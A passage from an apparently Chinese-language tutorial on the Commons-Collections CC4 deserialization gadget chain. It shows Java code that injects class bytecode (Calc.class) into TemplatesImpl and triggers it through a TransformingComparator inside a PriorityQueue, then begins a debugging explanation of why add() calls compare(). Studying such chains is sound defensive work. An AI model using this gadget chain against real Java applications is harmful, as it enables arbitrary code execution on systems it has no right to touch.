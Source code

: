 实例化`PriorityQueue`对象，并且添加了两个元素来满足上面提到的`size`的需求

```java
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setfieldvalue(templates,"_name","a");
        setfieldvalue(templates,"_bytecodes",new byte[][]{code});
         setfieldvalue(templates,"_tfactory",new TransformerFactoryImpl());


       InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        PriorityQueue priorityQueue = new PriorityQueue(1,transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
```

没有序列化和反序列化，直接运行代码也可以命令执行

### debug

接下来看add函数，在运行add函数的时候就已经执行`compare`函数了

刚进入这个类找`compare`函数时就可以找到多个地方调用了`compare`，所以出现问题很容易想到是`add`调用了`compare`函数

![image-20250928161513481](Commons-Collections%E7%AF%8705-CC4%E9%93%BE/image-20250928161513481.png)
